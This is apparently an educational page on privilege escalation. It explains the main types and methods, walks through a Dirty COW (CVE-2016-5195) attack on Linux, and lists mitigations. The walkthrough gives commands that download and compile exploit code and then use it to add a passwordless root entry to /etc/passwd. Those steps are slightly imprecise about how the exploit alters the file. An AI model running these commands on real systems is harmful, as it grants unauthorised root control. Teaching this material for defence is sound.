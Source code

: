 # Privilege Escalation


# 👉 Overview

---

### 👀 What ?

Privilege Escalation is the act of exploiting a bug, design flaw, or configuration oversight in an operating system or software application to gain elevated access to resources that are normally protected from an application or user. This access can be used by an attacker to infiltrate and take control of a system or a network.


### 🧐 Why ?

Understanding Privilege Escalation is crucial because it is one of the key stages in most successful cyber-attacks. It allows an attacker, who has gained initial access, to transform that foothold into complete control of a system, data, or network. As such, it is a critical concept in cybersecurity, and its understanding can help in the creation of more secure systems and in the defense against cyber attacks.


### ⛏️ How ?

Privilege Escalation can occur in two ways: horizontally, where a user gains the privileges of another user functioning at the same security level; or vertically, where an attacker escalates from a lower privilege to a higher one. The most common methods used for Privilege Escalation are: exploiting a system vulnerability, password cracking, social engineering, and privilege escalation through inheritance or trusted relationship.


### ⏳ When ?

Privilege Escalation attacks have been in practice for as long as there have been systems with hierarchical privilege structures, which is to say, essentially since the creation of multi-user computing systems. However, these attacks have become more prevalent and sophisticated with the rise of the internet and the proliferation of interconnected systems.


# ⚙️ Technical Explanations

---

### Overview

Privilege Escalation is a critical concept in cybersecurity where an attacker exploits system vulnerabilities to gain higher permissions than initially granted. This process involves identifying a target system, gaining initial access, and then elevating privileges within the system. Understanding Privilege Escalation is vital for designing secure systems and protecting against cyber attacks.

### Types of Privilege Escalation

1. **Horizontal Escalation**:
    - The attacker gains the privileges of another user at the same security level.
    - Example: An attacker compromises another regular user's account to access their data or resources.
2. **Vertical Escalation**:
    - The attacker elevates their privileges from a lower level to a higher one, becoming a superuser with full access rights.
    - Example: An attacker uses a vulnerability to gain root access on a Linux system.

### Methods of Privilege Escalation

1. **Exploiting Known Vulnerabilities**:
    - Using exploits for known vulnerabilities in the operating system or applications.
2. **Password Cracking**:
    - Guessing or cracking passwords to gain access to higher-privileged accounts.
3. **Social Engineering**:
    - Manipulating users into divulging sensitive information or performing actions that elevate privileges.
4. **Exploiting Inheritance or Trusted Relationships**:
    - Taking advantage of misconfigurations where privileges are inherited or where trusted relationships exist within the system's privilege structure.

### Real Example: Privilege Escalation on a Linux System Using Dirty COW (CVE-2016-5195)

### Scenario

A Linux system running an old kernel version is vulnerable to the Dirty COW exploit, allowing a non-privileged user to gain write access to any file they can read. This can be used for Privilege Escalation.

### Step-by-Step Process

1. **Initial Access**:
    - The attacker gains initial access through weak passwords or a phishing attack, obtaining non-privileged access.
    - They identify the kernel version using the command:
    
    ```bash
    uname -a
    
    ```
    
2. **Exploit Identification**:
    - After confirming the system's vulnerability, the attacker uses the Dirty COW exploit.
    - They download and compile the exploit code:
    
    ```bash
    wget <https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/dirtyc0w.c
    gcc -pthread dirtyc0w.c -o dirtyc0w
    
    ```
    
3. **Privilege Escalation**:
    - The attacker targets a file they can read but not write, such as `/etc/passwd`.
    - They use the exploit to modify the file and add a new root user:
    
    ```bash
    ./dirtyc0w /etc/passwd "newroot::0:0:::/bin/bash"
    
    ```
    
4. **Post-Exploitation**:
    - The attacker logs in as the new root user with the added credentials:
    
    ```bash
    su - newroot
    
    ```
    
    - With root privileges, they have complete control over the system, allowing access to sensitive data, changes to system settings, or further attacks.

### Mitigation Strategies

1. **System Updates**:
    - Regularly update and patch systems to fix known vulnerabilities.
    - Use automated tools to ensure timely updates.
2. **Strong and Unique Passwords**:
    - Implement strong password policies and enforce the use of unique passwords.
    - Utilize multi-factor authentication (MFA) where possible.
3. **User Education**:
    - Educate users about phishing attacks and social engineering tactics.
    - Conduct regular security awareness training.
4. **Least Privilege Principle**:
    - Apply the principle of least privilege, ensuring users have the minimum necessary permissions.
    - Regularly audit user permissions and access levels.
5. **Monitoring and Detection**:
    - Implement monitoring tools to detect unusual activities or potential exploits.
    - Use intrusion detection systems (IDS) and intrusion prevention systems (IPS) to identify and respond to attacks.

### Conclusion

Privilege Escalation is a significant threat in cybersecurity, allowing attackers to gain elevated access and potentially control the entire system. By understanding the methods and implementing robust mitigation strategies, organizations can protect their systems from such attacks. Regular updates, strong passwords, user education, and continuous monitoring are key components of an effective security posture.
